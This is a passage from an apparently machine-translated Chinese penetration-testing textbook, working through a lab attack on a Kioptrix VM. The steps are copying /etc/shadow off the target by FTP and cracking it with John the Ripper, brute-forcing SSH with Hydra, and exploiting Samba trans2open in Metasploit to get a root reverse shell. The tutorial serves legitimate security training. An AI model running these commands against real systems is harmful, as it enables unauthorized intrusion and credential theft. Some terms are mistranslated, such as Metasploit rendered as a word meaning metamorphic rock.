5.  在连接到 Kioptrix 机器的外壳中，使用 FTP 连接回溯机器上的 FTP 服务器：

    ```
    cd /etc

    ```

    ```
    ls

    ```

    ```
    ftp 192.168.75.12 

    ```

    ```
    Password: password 

    ```

    ```
    put shadow 

    ```

    ```
    ls
    exit

    ```

    *   移动到/etc 目录。记住，您不会从受害者机器收到太多反馈。
    *   您应该看到 Kioptrix/etc 目录的目录列表。
    *   输入我们在回溯机器（ftplogin）上的 FTP 服务器上创建的用户名。
    *   输入 FTP 服务器帐户的密码。请稍等片刻，然后键入：
    *   请稍等片刻，然后键入：
    *   您应该会看到目标 FTP 站点的目录列表。
6.  *CTRL + Q* will get you out of the Kioptrix machine.

    ### 注

    您也可以简单地执行 `cat shadow`并用鼠标复制屏幕输出。但是，了解如何从目标计算机中提取文件非常重要，尤其是当文件非常大时。

现在我们的回溯机上有了阴影文件，让我们看看我们能用它做些什么。

```
# cd /pentest/passwords/john 

```

一旦我们浏览到正确的目录，我们就可以根据 Kioptrix 阴影文件启动 john：

```
# john /var/public/shadow 

```

John 将开始尝试 MD5 密码的暴力尝试。

```
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [32/64 X2])

```

### 注

如果您运气好或非常有耐心，您将获得目标机器的未加密密码作为奖励。根据所使用的密码复杂性以及系统的速度，此步骤可能需要几分钟到几周的时间才能完成。有第三方服务可用于破解密码，但由于您无法控制发送给第三方的任何数据，因此必须在您的参与规则中明确允许使用这些服务。

## 暴力强制密码

暴力强迫仍然是获取机器访问权限的一种非常可行的方法。密码的问题在于，人们必须能够随意调用密码。试着记住 233！sdsfF_DaswsaWlsc！！&$#u 这对大多数人来说都很困难，因此我们最终会得到一个简短的常用密码列表，比如 iLoveKelle1！。问题是，有几种方法可以缩小可能的密码列表，而计算机目前有多达 8 个处理器内核用于家庭桌面。

### 提示

密码破解可以通过使用多个视频卡及其 GPU 来完成。如果资源可用，这是首选方法。

虽然密码是 IloveKelle1！如果遇到许多强制密码策略，您可以轻松地创建一个密码列表，其中添加某些常用字符，例如！，1、2 等等，通过阅读本书的开头，你将能够确定我配偶的名字是凯莉。如果你对如何创建单词列表很在行，那么放置诸如 ILove、Iam 等常用术语将使其余的变得微不足道。现代密码暴力强制技术将在瞬间撕毁此密码。这使得破解密码比以往更快更容易。在这里，我们将看一看强制使用这些密码的几种方法。

### 注

请注意，本书中使用的许多示例都经过了简化，使概念更易于学习。一旦你理解了这些概念，你就可以在现实生活中的网络上使用同样的技术了。

## THC Hydra

THC Hydra 使检查弱密码的任务变得有趣。它根据 GPLv3 发布，并由 THC 团队不断更新。有关本产品的最新信息，请浏览[http://www.thc.org/thc-hydra/](http://www.thc.org/thc-hydra/) 。

### 注

THC Hydra 目前支持 40 多种服务，包括 FTP、MySQL、POP3、SSH2、VNC 等。

我们将启动我们的虚拟实验室，并开始使用回溯 5 中包含的 THC Hydra。让我们连接到 Kioptrix 机器并创建一个帐户，这样我们就可以看到 Hydra 如何查找密码。在回溯机器上加载我们以前使用的 Samba 漏洞：

```
# ./SambaVuln_10 -b 0 192.168.75.14 

```

连接后，键入以下内容以更改 `harold`帐户的密码：

```
passwd Harold
New password: lotsOfPasswords
Retype new passwords: lotsOfPasswords 

```

与许多工具一样，确定语法的最快方法是在无需任何额外输入的情况下调用程序：

```
# hydra 

```

命令语法将显示在输出中：

```
Hydra v7.0 (c)2011 by van Hauser/THC & David Maciejak - for legal purposes only
Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-SuvV46] [server service [OPT]]|[service://server[:PORT][/OPT]]

```

Hydra 可以在命令提示符下使用，但它也有一个很好的 GUI，可以通过以下方式调用：

```
# xhydra 

```

此命令将启动 GUI，我们将看到以下内容：


### 注

我们将使用 BackTrack 中包含的密码文件，但理想情况下，您将下载或创建自己的密码文件，特别是如果您能够获取有关客户网站或元数据的公司特定信息。我强烈建议您在[查看 cewl（由 DigiNinja 编写并预装在 Backtrack 上）http://www.digininja.org/projects/cewl.php](http://www.digininja.org/projects/cewl.php) 。

为了对我们的 Kioptrix 机器执行简单的暴力攻击，我们必须选择以下设置：

*   目标选项卡
    *   单一目标：192.168.75.14（Kioptrix 虚拟机）
    *   港口：22
    *   协议：SSH
    *   检查以下选项：详细，显示尝试
*   密码选项卡
    *   用户名：Harold
    *   密码：lotsOfPasswords
    *   检查：尝试以密码登录，尝试使用空密码
*   其他一切都是默认的

进入**开始**选项卡，在屏幕底部点击**开始**按钮。您将获得以下信息：



好吧，我们设法猜出了一个我们已经知道密码的帐户的密码…这不是很令人兴奋，但它确实让您知道有一些简单的方法可以验证帐户登录是否准确，而无需登录任何需要的客户端（例如，检查 SNMP 或 TFTP）。

让我们将密码添加到 BackTrack 5 附带的字典中。打开终端会话并键入：

```
# /pentest/passwords/wordlists 

```

这将带您进入 WordList 目录。

### 提示

在 WordList 目录中有一个名为 `darkc0de.lst`的文件，可以让您开始。看看这个文件，了解一下典型的单词表是由什么组成的。

这是一个非常方便的地方来存储您所有的个人词表。许多测试人员都会有几个收藏夹，并且根据需要动态创建单词列表。让我们将密码添加到此列表中。编辑 `darkc0de.lst`使其看起来像这样：

```
^[
^[^[
^[^[^[
^[^[^[^[
^[^[^[^[^[
^[^[^[^[^[^[
^[^[^[^[^[^[^[
^[^[^[^[^[^[^[^[
!magnus
!power
"A" SIDES
"DETROIT" GARY & CC TH WIGGINS
lotsOfPasswords 
#
#

```

我们已将测试添加到此密码文件的头中，以便更快地找到它。

再次打开 Xhydra 并选择以下选项：

*   目标选项卡
    *   单一目标：192.168.75.14（Kioptrix 虚拟机）
    *   港口：22
    *   协议：SSH
    *   检查以下选项：详细，显示尝试
*   密码选项卡
    *   用户名：Harold
    *   密码列表：选中，点击输入字段选择 `/pentest/passwords/wordlists/darkc0de.lst`
    *   检查：尝试以密码登录，尝试使用空密码
*   调谐
    *   任务数：1
    *   第一次找到对后退出：选中
*   其他一切都是默认的

再次转到开始选项卡，单击窗口右下角的开始：



Hydra THC 对任何人的工具包都是一个明确的好处，它的使用应该得到实践和完善，以便真正成功地穿透复杂网络，而密码可能是整个安全体系结构中最薄弱的环节。

# Metasploit——学会并热爱它

变质岩™ 框架令人难以置信。它以友好、易于使用的方式为渗透测试人员提供了各种各样的工具。它最初由 HD Moore 创建，最近由 Nexpose 漏洞扫描工具包的创建者 Rapid7 购买。我们手动完成的所有操作都可以使用 Metasploit 完成。如果您是渗透测试新手，我强烈建议您参加[提供的免费培训 http://www.offensive-security.com/metasploit-unleashed/Metasploit_Unleashed_Information_Security_Training](http://www.offensive-security.com/metasploit-unleashed/Metasploit_Unleashed_Information_Security_Training) 真正了解这个框架到底有多强大。该网站不断更新，应经常访问，以查找有关 MSF 框架最新添加内容的信息。在这本书中，我们将我们的范围限制在 MSF 框架的一些更有趣的特性上，以强调它为渗透测试人员必须做的工作增加的效率。

## 更新 Metasploit 框架

和往常一样，经常更新应用程序是非常重要的。Metasploit 在这方面没有什么不同。您应该每周至少更新一次 Metasploit 框架的安装。这个命令很容易记住。无论当前工作目录如何，都可以从回溯 shell 运行该命令。更新之前，请确保回溯实验室机器已连接到 Internet。

```
#msfupdate 

```

更新完成后，应向您显示更新通知，然后显示命令提示符：

```
Updated to revision <new revision number>
root@bt:~#

```

您还将在 Metasploit 标题屏幕上看到一个信息部分，提醒您上次更新：

```
# msfconsole 

```

此命令将产生类似以下内容的输出：

```
_ _
/ \ / \ __ _ __ /_/ __
| |\ / | _____ \ \ ___ _____ | | / \ _ \ \
| | \/| | | ___\ |- -| /\ / __\ | -__/ | | | | || | |- -|
|_| | | | _|__ | |_ / -\ __\ \ | | | |_ \__/ | | | |_
|/ |____/ \___\/ /\ \___/ \/ \__| |_\ \___\
=[ metasploit v4.2.0-dev [core:4.2 api:1.0]
+ -- --=[ 762 exploits - 404 auxiliary - 117 post
+ -- --=[ 228 payloads - 27 encoders - 8 nops
=[ svn r14271 updated today (2011.11.16) 
msf >

```

请注意，上次更新的日期和 `svn`编号作为输出的一部分显示。

### 注

这可能是一个很好的时间来更新您的回溯来宾机以及。您应该在更新 Metasploit 框架之前更新回溯。

## 数据库和元数据

我最喜欢的 Metasploit 特性之一是能够将所有结果转储到数据库中。默认情况下，Metasploit 使用 PostgreSQL。

### 注

可能不需要安装 PostgreSQL。尝试在 MSF 上下文中连接到数据库，如果遇到错误，请按照完整的安装过程进行操作，然后重试。

### 在回溯 5 上安装 PostgreSQL

为了下载和安装 PostgreSQL，我们需要重新将 BackTrack 5 客户机连接回 Internet。验证连接类型后，请执行以下操作：

```
# apt-get install postgresql 

```

阅读说明并按*Y*继续。安装应以类似于以下内容的语句完成：

```
Setting up postgresql (8.4.8-0ubuntu0.10.04) ...

```

现在我们需要对安装进行一些修改：

```
# sudo su postgres -c psql 

```

```
could not change directory to "/root"
psql (8.4.8)
Type "help" for help.

```

安装 postgres 后，我们会收到以下提示，告知我们正在数据库控制台中工作：

```
postgres=#

```

现在，我们将更改默认数据库用户的密码：

```
postgres=# ALTER USER postgres WITH PASSWORD 'myPassword'; 

```

```
ALTER ROLE

```

这里我们更改了 postgre 角色的密码。我们将使用 `\q`退出 postgres 控制台。

```
postgres=# \q 

```

### 验证数据库连接

加载 Metasploit 控制台：

```
# msfconsole 

```

在 `msf >`提示符处键入：

```
msf> db_connect postgres:myPassword@127.0.0.1/pentester
msf> db_status

```

```
[*] postgresql connected to pentester

```

现在我们知道我们已经连接到名为 pentester 的 PostgreSQL 数据库。我们可以通过键入以下内容来验证连接：

```
msf> hosts 

```

```
Hosts
=====
address mac name os_name os_flavor os_sp purpose info comments
------- --- ---- ------- --------- ----- ------- ---- --------

```

前面的命令将为我们提供主机列表。正如你所看到的，现在还没有什么有趣的东西。

### 从 Metasploit 内部执行 Nmap 扫描

我们需要在运行 hosts 命令时显示一些令人兴奋的内容，所以让我们运行一个快速的 nmap 扫描来收集一些数据。打开 `msfconsole`并连接数据库后，我们现在可以直接从 Metasploit 中运行 nmap 扫描。

```
msf> db_nmap -nO -sTU -pT:22,80,111,139,443,32768,U:111,137,32768 192.168.75.14 

```

结果看起来非常熟悉添加到数据库以供将来参考的额外好处：

```
[*] Nmap: Starting Nmap 5.51SVN ( http://nmap.org ) at 2011-11-16 21:47 EST
[*] Nmap: Nmap scan report for 192.168.75.14
[*] Nmap: Host is up (0.00059s latency).
[*] Nmap: PORT STATE SERVICE
[*] Nmap: 22/tcp open ssh
[*] Nmap: 80/tcp open http
[*] Nmap: 111/tcp open rpcbind
[*] Nmap: 139/tcp open netbios-ssn
[*] Nmap: 443/tcp open https
[*] Nmap: 32768/tcp open filenet-tms
[*] Nmap: 111/udp open rpcbind
[*] Nmap: 137/udp open netbios-ns
[*] Nmap: 32768/udp open|filtered omad
[*] Nmap: MAC Address: 08:00:27:21:21:62 (Cadmus Computer Systems)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 2.4.X
[*] Nmap: OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
[*] Nmap: Network Distance: 1 hop
[*] Nmap: OS detection performed. Please report any incorrect results at http://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 3.00 seconds

```

如果我们运行一个快速的 `hosts`命令，我们将看到系统已经添加到我们的 PostgreSQL pentester 数据库中：

```
msf > hosts 

```

```
Hosts
=====
address mac name os_name os_flavor os_sp purpose info comments
------- --- ---- ------- --------- ----- ------- ---- --------
192.168.75.14 08:00:27:21:21:62 Linux 2.4.X device

```

既然数据在数据库中，我们就可以执行各种方便的省时技巧。例如，如果我们想查看哪些系统的端口 443 处于打开状态，我们可以输入：

```
msf > services -p 443 

```

这为我们提供了一个格式良好的输出，列出了 443:的所有系统

```
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
192.168.75.14 443 tcp https open

```

### 使用辅助模块

```
msf > use auxiliary/scanner/portscan/tcp

```

use 命令指示 Metasploit 使用指定的模块。

```
msf auxiliary(tcp) > show options

```

每个模块都有一组特定的选项，可通过 `show options`命令显示。此特定模块具有以下可更改的选项：

```
Module options (auxiliary/scanner/portscan/tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
CONCURRENCY 10 yes The number of concurrent ports to check per host
FILTER no The filter string for capturing traffic
INTERFACE no The name of the interface
PCAPFILE no The name of the PCAP capture file to process
PORTS 1-10000 yes Ports to scan (e.g. 22-25,80,110-900)
RHOSTS yes The target address range or CIDR identifier
SNAPLEN 65535 yes The number of bytes to capture
THREADS 1 yes The number of concurrent threads
TIMEOUT 1000 yes The socket connect timeout in milliseconds

```

我们需要更改其中一些以满足我们的需要：

```
msf auxiliary(tcp) > set RHOSTS 192.168.75.14
,

```

`RHOSTS`是我们的目标范围。我们将其设置为 `192.168.75.14:`

```
msf auxiliary(tcp) > set PORTS 1-1024 

```

为了节省时间，我们使用 `set PORTS`设置将扫描限制为仅前 1024 个端口。

```
msf auxiliary(tcp) > run 

```

`run`命令将使用我们预定的设置启动扫描。稍后，我们将收到来自控制台的反馈：

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

这里需要注意的重要一点是，所有模块都以相同的方式运行。一旦您了解了搜索漏洞的方法，您将能够重复使用相同的步骤。

## 利用 Metasploit 利用 Kioptrix

是时候来看看使用 Metasploit 对我们的 Kioptrix 机器执行攻击了。当我们了解如何编译和使用互联网上提供的概念验证代码时，我们将能够快速了解 Metasploit 所节省的时间。我们将首先连接到数据库。

```
# msfconsole
msf > db_connect postgres:myPassword@127.0.0.1/pentester

```

我们的数据库中应该已经有一些信息了。这可以通过以下方式进行验证：

```
msf > services 

```

此命令为我们提供以下输出：

```
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
192.168.75.14 22 tcp ssh open
192.168.75.14 80 tcp http open
192.168.75.14 111 udp rpcbind open
192.168.75.14 111 tcp rpcbind open
192.168.75.14 137 udp netbios-ns open
192.168.75.14 139 tcp netbios-ssn open
192.168.75.14 443 tcp https open
192.168.75.14 32768 tcp filenet-tms open
192.168.75.14 32768 udp omad open

```

当查看这些端口时，我们发现以前被利用的 samba 端口 139 仍然处于打开状态。现在是时候看看我们可以做什么，而不必重新格式化攻击代码。

```
msf> search samba 

```

这导致：


*   Name：一旦我们决定尝试哪种利用，Name 列将与 USE 命令关联使用。
*   披露：披露日期是向社区或供应商披露该漏洞的实际日期，而不是发布概念验证代码的日期。
*   等级：等级非常重要，因为它表明已知利用漏洞的可靠性。
*   描述很好地描述了该漏洞的类型。

我们将使用 `trans2open`漏洞，因为它与我们在本章前面手动执行的类似。在 `msfconsole`类型中：

```
msf > use exploit/linux/samba/trans2open 

```

当需要关于利用漏洞的更多信息时，我们可以使用 `info`命令接收以下输出：

```
msf exploit(trans2open) > info 

```

```
Name: Samba trans2open Overflow (Linux x86)
Module: exploit/linux/samba/trans2open
Version: 12196
Platform: Linux
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
Provided by:
hdm <hdm@metasploit.com>
jduck <jduck@metasploit.com>
Available targets:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 139 yes The target port
Payload information:
Space: 1024
Avoid: 1 characters
Description:
This exploits the buffer overflow found in Samba versions 2.2.0 to
2.2.8\. This particular module is capable of exploiting the flaw on
x86 Linux systems that do not have the noexec stack option set.
NOTE: Some older versions of RedHat do not seem to be vulnerable
since they apparently do not allow anonymous access to IPC.
References:
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2003-0201
http://www.osvdb.org/4469
http://www.securityfocus.com/bid/7294
http://seclists.org/bugtraq/2003/Apr/103

```

此信息可用于 Metasploit 中的所有漏洞利用。在时间允许的情况下，花时间熟悉一些最常用的漏洞利用从长远来看是非常有益的，因为您将能够避免尝试在生产系统上不起作用的漏洞利用。

现在我们需要设置一些可用的选项：

```
msf > set RHOST 192.168.75.14 

```

`RHOST`是远程主机，需要设置为我们的 Kioptrix 机器 IP 地址。

```
msf > show payloads 

```


`show payloads`命令提供可用于此特定攻击的所有兼容有效载荷的列表。我们将在本例中使用 `reverse_tcp`。这种有效载荷类型很小，通常很有效，尽管它没有 MeterMeter 提供的全部选项。

```
> set payload linux/x86/shell/reverse_tcp 

```

我们还必须设置 `LHOST`和 `LPORT`。

```
> set LHOST 192.168.75.12 

```

这是将在其上设置侦听器的本地主机。

```
> set LPORT 2222 

```

这是我们要监听的端口。

现在，这已经不存在了，我们可以继续利用：

```
> exploit 

```

如果一切按计划进行，您将收到以下确认和一个开放会话，该会话与本章前面提供给我们的手动编译的漏洞连接非常相似。

```
msf exploit(trans2open) > exploit 

```

```
[*] Started reverse handler on 192.168.75.12:2221
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.75.14
[*] Command shell session 2 opened (192.168.75.12:2221 -> 192.168.75.14:32802) at 2011-11-16 23:22:06 -0500

```

为了确保我们有 root，我们将执行以下命令：

```
# mail

```

```
Mail version 8.1 6/6/93\. Type ? for help.
"/var/mail/root": 6 messages 6 unread
>U 1 root@kioptix.level1 Sat Sep 26 11:42 15/481 "About Level 2"
U 2 root@kioptrix.level1 Thu Nov 10 19:34 19/534 "LogWatch for kioptrix"
U 3 root@kioptrix.level1 Fri Nov 11 14:38 48/1235 "LogWatch for kioptrix"
U 4 root@kioptrix.level1 Sun Nov 13 15:12 19/534 "LogWatch for kioptrix"
U 5 root@kioptrix.level1 Mon Nov 14 18:23 244/12279 "LogWatch for kioptrix"
U 6 root@kioptrix.level1 Wed Nov 16 15:19 19/534 "LogWatch for kioptrix"

```

我们正在查看根帐户的消息，可以看到 Loneferret 给我们留下了一条很好的消息；键入 1 以阅读：

```
# 1

```

```
Message 1:
From root Sat Sep 26 11:42:10 2009
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...

```

最后一个练习应该清楚地表明，与使用 Metasploit 手动查找和编译代码相比，这是一件轻而易举的事。最棒的是，您还可以将自己的模块和编译后的代码添加到框架中。

# 总结

本章对利用进行了详细的介绍。通过利用 Kioptrix，这是一个故意易受攻击的 Linux 发行版，我们能够在漏洞数据库和回溯上找到漏洞，然后纠正代码中发现的任何错误。我们研究了真正理解渗透测试利用阶段所需的步骤，例如在被利用的机器之间获取横幅和传输文件。

我们研究了开膛手约翰（John the Ripper）和 Hydra（THC Hydra）的密码破解和暴力破解，这两个方面都需要深入理解，以便为后面的章节做好准备。密码破解不会很快消失，从长远来看，这方面的专业知识会非常有益。

本章还介绍了在被利用的机器之间传输文件的必要步骤；这包括设置和配置随 BackTrack 5 预装的 FTP 守护程序。

最后，我们以 Metasploit 的介绍结束了本章，并介绍了如何使用 Metasploit 以多种不同的方式简化渗透测试任务。通过执行实践练习，很快就可以清楚地看到，尽管手动查找和编译利用漏洞的代码可能是有益的，但使用 Metasploit 可以显著提高您的总体生产率。

在下一章中，我们将讨论测试 web 应用程序及其底层基础结构的安全性所需的技术。这包括检测负载平衡器和 web 应用程序防火墙。还讨论了 w3af 和 Webscarab 等工具的使用。此外，我们的虚拟实验室大大扩展了，增加了几台机器，包括 pfSense 和 Kioptrix Level 3。